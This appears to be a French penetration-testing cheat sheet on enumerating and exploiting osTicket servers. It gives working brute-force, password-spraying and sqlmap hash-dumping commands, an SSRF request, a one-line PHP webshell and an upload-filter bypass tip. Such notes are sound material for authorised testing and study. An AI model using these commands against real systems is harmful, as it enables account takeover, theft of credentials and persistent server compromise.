

## Énumération d'osTicket

### Détection manuelle
La détection repose sur l'identification des signatures dans les pages web.

*   Recherche dans le footer :
    ```text
    powered by osTicket
    Support Ticket System
    ```
*   Vérification des favicons et titres :
    ```bash
    curl -s http://target/ | grep -i "osTicket"
    ```

### Requêtes HTTP
L'analyse des headers et des cookies permet de confirmer la technologie utilisée.

```bash
# Voir les headers + cookies
curl -I http://target/ -k

# Inspecter la présence du cookie OSTSESSID
curl -c cookies.txt http://target/

# Observer le formulaire de ticket
curl http://target/open.php
```

### Fingerprinting
L'utilisation d'outils automatisés permet de cartographier la surface d'attaque.

```bash
# EyeWitness pour les screenshots des interfaces web
eyewitness -x nmap.xml -d output/

# WhatWeb pour l'identification des versions
whatweb http://target/
```

### Sous-domaines
La découverte de sous-domaines est essentielle pour isoler les instances de support.

```bash
# Découverte via amass et assetfinder
amass enum -d target.com
assetfinder --subs-only target.com
```

### Collecte d'informations
La création de tickets permet de récolter des adresses email internes, tandis que l'OSINT aide à générer des listes d'utilisateurs.

*   Formulaire d'ouverture de ticket : `/open.php`
*   Génération de listes d'utilisateurs :
    ```bash
    linkedin2username -c "Target Inc" -f users.txt
    ```

### Analyse de la configuration du serveur web (Apache/Nginx)
L'analyse des fichiers de configuration permet d'identifier des mauvaises configurations (ex: `Directory Listing`, `Server Tokens`).

```bash
# Vérification des headers de sécurité et version du serveur
curl -I http://target/

# Test de Directory Listing sur les répertoires connus
curl -v http://target/include/
```

### Analyse des permissions des fichiers (upload directories)
Les répertoires d'upload (`/include/attachments/` ou `/upload/`) doivent être audités pour vérifier l'exécution de scripts.

```bash
# Vérifier si le répertoire permet l'exécution de PHP
curl -I http://target/include/attachments/test.php
```

### Analyse des logs d'erreurs
L'accès aux logs peut révéler des chemins absolus ou des erreurs de base de données.

```bash
# Tentative d'accès aux logs via des chemins communs
curl -v http://target/logs/error.log
curl -v http://target/include/logs/error.log
```

---

## Exploitation d'osTicket

### Vulnérabilités connues
La recherche de vulnérabilités spécifiques à la version identifiée est une étape clé.

```bash
searchsploit osticket
```

> [!note]
> Les vecteurs courants incluent **CVE-2020-24881** (**SSRF**), l'upload de fichiers arbitraires, les **SQLi**, **RFI/LFI** et les **XSS**.

### Brute-force
L'accès au panneau d'administration (`/scp/login.php`) peut être testé par force brute.

```bash
hydra -l kevin -P passwords.txt target http-post-form "/scp/login.php:__CSRFToken__=token&userid=^USER^&passwd=^PASS^:Invalid login"
```

> [!warning] Attention au blocage IP lors du brute-force sur /scp/login.php
> [!warning] La gestion des CSRF tokens est critique pour les attaques par force brute

### Exploitation SSRF
L'exploitation de vulnérabilités comme **CVE-2020-24881** permet d'interagir avec le réseau interne.

```http
POST /open.php HTTP/1.1
Host: target
...

URL = http://127.0.0.1:22
```

> [!tip] Le SSRF via osTicket peut permettre d'accéder aux métadonnées cloud (AWS/Azure/GCP)

### Analyse des bases de données (dumping via SQLi)
En cas de vulnérabilité **SQL Injection**, il est possible d'extraire les hashs des utilisateurs.

```bash
# Extraction via sqlmap
sqlmap -u "http://target/view.php?id=1" --dump -T ost_staff -D osticket_db
```

### Abus de portail
Le système de ticketing peut être utilisé pour intercepter des emails de confirmation de services tiers (Slack, GitLab, etc.) en utilisant l'adresse `ticketID@target.local`.

### Password Spraying
Si une politique de mot de passe par défaut est en place, le **Password Spraying** est une technique efficace.

```bash
crackmapexec smb target -u users.txt -p Welcome123!
```

> [!warning] Vérifier les politiques de mot de passe avant le spraying

### Fuite d'informations et post-exploitation
L'accès à un compte agent permet d'accéder à l'historique des tickets, souvent riche en informations sensibles :
*   Mots de passe en clair
*   Conventions de nommage
*   Adresses IP internes
*   Code source ou secrets

Ces informations facilitent le pivot vers le VPN, le Webmail ou le SSO, des sujets détaillés dans les notes sur le **Web Enumeration** et les **Post-Exploitation Basics**.

### Post-exploitation (webshell persistence)
Une fois un accès administrateur obtenu, l'upload d'un webshell via le gestionnaire de plugins ou de fichiers est la méthode privilégiée.

```bash
# Exemple de payload PHP simple pour persistence
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

> [!tip] Utiliser les fonctionnalités natives d'osTicket pour uploader des fichiers autorisés en renommant l'extension si nécessaire. Voir **Post-Exploitation Basics** pour la gestion de la persistence.